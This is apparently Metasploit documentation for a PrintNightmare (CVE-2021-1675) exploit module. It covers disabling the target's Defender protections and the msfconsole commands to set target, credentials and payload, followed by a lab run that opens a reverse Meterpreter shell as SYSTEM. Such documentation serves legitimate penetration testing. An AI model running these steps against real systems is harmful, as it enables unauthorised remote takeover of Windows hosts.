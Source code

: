 ## Vulnerable Application
The print spooler service can be abused by an authenticated remote attacker to load a DLL through a crafted DCERPC
request, resulting in remote code execution as NT AUTHORITY\SYSTEM.

## Verification Steps

1. Disable Windows security options on the target
    1. Disable Windows Defender Real-time protection (Windows Security > Virus & threat protection > Virus & threat protection settings)
    1. Disable Windows Defender SmartScreen (Windows Security > Virus & threat protection > App & browser control)

1. Exploit the vulnerability to force the target to load the DLL payload
    1. From msfconsole
    1. Do: `use exploit/windows/dcerpc/cve_2021_1675_printnightmare`
    1. Set the `RHOSTS` values
    1. Set the `SMBUser` and `SMBPass` values
    1. Set the `PAYLOAD` and related values
    1. Run the module

## Options

### ReconnectTimeout
*This is an advanced option.*

The timeout in seconds for reconnecting to the named pipe.

While exploiting the vulnerability, it is common for the named pipe connection to be closed. This option specifies a
delay in seconds to wait before reconnecting to the service. A delay that is too short may fail with
`STATUS_OBJECT_NAME_NOT_FOUND`.

## Scenarios

### Windows Server 2019

```
msf > use exploit/windows/dcerpc/cve_2021_1675_printnightmare
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set SMBUser aliddle
SMBUser => aliddle
msf exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set SMBPass Password1
SMBPass => Password1
msf exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set RHOSTS 192.168.159.96
RHOSTS => 192.168.159.96
msf exploit(windows/dcerpc/cve_2021_1675_printnightmare) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] 192.168.159.96:445 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.159.96:445 - Target environment: Windows v10.0.17763 (x64)
[*] 192.168.159.96:445 - Enumerating the installed printer drivers...
[*] 192.168.159.96:445 - Retrieving the path of the printer driver directory...
[+] 192.168.159.96:445 - The target is vulnerable. Received ERROR_BAD_NET_NAME, implying the target is vulnerable.
[*] 192.168.159.96:445 - Server is running. Listening on 192.168.250.134:445
[*] 192.168.159.96:445 - Server started.
[*] 192.168.159.96:445 - The named pipe connection was broken, reconnecting...
[*] 192.168.159.96:445 - Successfully reconnected to the named pipe.
[*] Sending stage (200774 bytes) to 192.168.250.237
[*] 192.168.159.96:445 - The named pipe connection was broken, reconnecting...
[*] Meterpreter session 1 opened (192.168.250.134:4444 -> 192.168.250.237:61984) at 2022-05-16 17:42:19 -0400
[*] 192.168.159.96:445 - Server stopped.

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-3MSP8K2LCGC
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 7
Meterpreter     : x64/windows
meterpreter > 
```
